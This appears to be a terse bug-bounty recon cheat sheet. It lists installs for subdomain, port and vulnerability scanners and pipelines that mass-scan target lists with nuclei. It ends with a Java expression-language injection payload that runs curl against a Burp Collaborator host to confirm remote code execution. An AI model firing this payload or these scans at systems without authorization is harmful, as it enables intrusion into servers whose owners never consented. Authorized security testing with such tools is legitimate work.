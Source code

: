 





https://spyse.com/advanced-search/ip?search_params=%5B%7B%22ip_as_num%22%3A%7B%22operator%22%3A%22eq%22,%22value%22%3A%224755%22%7D%7D,%7B%22ip_port_open_ports%22%3A%7B%22value%22%3A%22465%22,%22operator%22%3A%22eq%22%7D%7D%5D




FIND ASN From IP : curl --silent "http://ip-api.com/json/192.30.253.113" | jq -r .as











GO111MODULE=on go get -v github.com/projectdiscovery/httpx/cmd/httpx
GO111MODULE=on go get -v github.com/projectdiscovery/subfinder/v2/cmd/subfinder
GO111MODULE=on go get -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei
git clone https://github.com/projectdiscovery/nuclei-templates.git
apt-get install screen nano 
git clone https://github.com/j3ssie/Osmedeus.git
go get -u -v github.com/lukasikic/subzy
go install -v github.com/lukasikic/subzy
git clone https://github.com/chenjj/CORScanner.git
go get -u github.com/tomnomnom/httprobe
GO111MODULE=on go get -v github.com/projectdiscovery/mapcidr/cmd/mapcidr
git clone https://github.com/projectdiscovery/naabu.git; cd naabu/v2/cmd/naabu; go build; cp naabu /usr/local/bin/; naabu -version
go get -v github.com/harleo/asnip
mapcidr -cidr 173.0.84.0/24 -silent | dnsx -silent -resp-only -ptr
https://github.com/JoyGhoshs/0install/blob/main/0install


-->

cat targets.txt | subfinder  --silent | httpx -silent | nuclei -t nuclei-templates  -severity critical,high,medum,low -o nuclei.op -c 500 -bulk-size 500








cat bbdata.json.resolved | nuclei -t ~/nuclei-templates/vulnerabilites -c 500 -bulk-size 500





$i18n.getClass().forName(‘java.lang.Runtime’).getMethod(‘getRuntime’,null).invoke(null,null).exec(‘curl http://gscslw5isgh4qiqkirgy2mhkzb51tq.burpcollaborator.net/rcetest?a=a').waitFor()


gscslw5isgh4qiqkirgy2mhkzb51tq.burpcollaborator.net



